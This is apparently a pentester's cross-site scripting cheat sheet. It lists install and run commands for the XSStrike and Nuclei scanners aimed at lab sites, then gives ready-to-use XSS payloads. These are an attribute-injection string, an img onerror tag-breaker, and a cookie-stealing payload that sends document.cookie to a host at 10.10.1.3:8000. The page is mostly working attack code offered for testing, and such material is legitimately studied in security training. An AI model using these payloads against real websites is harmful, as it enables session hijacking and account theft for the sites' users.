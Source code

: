 ```yaml
---
description: Cross-site scripting cheat sheet
---
```


# XSS

### Tools

XSStrike - [https://github.com/s0md3v/XSStrike](https://github.com/s0md3v/XSStrike)

{% code overflow="wrap" %}
```bash
# Install
git clone https://github.com/s0md3v/XSStrike
cd XSStrike
python3 -m venv xsstrike_env
source xsstrike_env/bin/activate
pip3 install -r requirements.txt

# run
python3 xsstrike.py -u https://www.codelatte.id/labs/xss/1.php?q= --fuzzer
python3 xsstrike.py -u https://www.codelatte.id/labs/xss/1.php --crawl -l 4
```
{% endcode %}

Nuclei

{% code overflow="wrap" %}
```bash
nuclei -u http://testphp.vulnweb.com/ -tags xss
```
{% endcode %}

### Simple Payload

This is a simple payload that I commonly use for XSS testing.

Inside HTML Tag

{% code overflow="wrap" %}
```javascript
" autofocus onfocus=alert(document.domain) x="
```
{% endcode %}

Breaking Tag

{% code overflow="wrap" %}
```javascript
"/><img src=x onerror=alert(document.domain) />
```
{% endcode %}

Stealing cookie

{% code overflow="wrap" %}
```javascript
<img src="x" onerror="fetch('http://10.10.1.3:8000?c=' + encodeURIComponent(document.cookie))">
```
{% endcode %}

### Resources

* [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
* [https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
* [https://raw.githubusercontent.com/carlospolop/Auto\_Wordlists/main/wordlists/xss.txt](https://raw.githubusercontent.com/carlospolop/Auto\_Wordlists/main/wordlists/xss.txt)
